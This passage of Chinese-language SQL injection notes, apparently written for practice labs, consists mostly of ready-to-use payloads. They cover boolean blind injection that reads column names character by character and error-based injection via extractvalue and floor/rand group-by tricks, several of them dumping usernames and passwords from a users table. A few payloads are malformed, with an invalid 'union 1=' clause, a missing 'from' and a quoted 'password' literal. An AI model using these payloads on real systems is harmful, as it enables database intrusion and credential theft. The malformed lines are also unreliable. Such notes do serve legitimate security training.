 

查询列名：

```
?id=-1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='user' limit 0,1),1,1))>100 --+
```

### 3.时间盲注



## 3.报错注入

### extractvalue 报错

```
?id=100' union select 1,extractvalue(1,concat(0x7e,(select database()))),3 --+
```

```sql
?id=100' union 1=extractvalue(1,concat(0x7e,(select database()))),3 --+
```

默认只能返回 32 个字符，使用 substring 解决这个问题，返回第 25 个字符再往后显示 30 个字符

```
?id=100' union 1=extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30)from users))) --+ 
```

### floor 报错

concat_ws 作用是连接

使用 group_concat 无法显示可以使用 concat

```
?id=0' union select 1,count(*),concat_ws('-',(select group_concat(table_name) from information_schema.tables where table_schema=database()),floor(rand(0)*2))as a from information_schema.tables group by a --+
```

```
?id=0' union select 1,count(*),concat_ws('-',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),floor(rand(0)*2)) as a information_schema.tables group by a --+
```

```
?id=0' union select 1,count(*),concat_ws('-',(select group_concat(username,':','password')from users),floor(rand(0)*2)) as a from information_schema.tables group by a--+
```

```
?id=0' union select 1,count(*),concat_ws('-',(select concat(username,':','password')from users),floor(rand(0)*2)) as a from information_schema.tables group by a--+
```
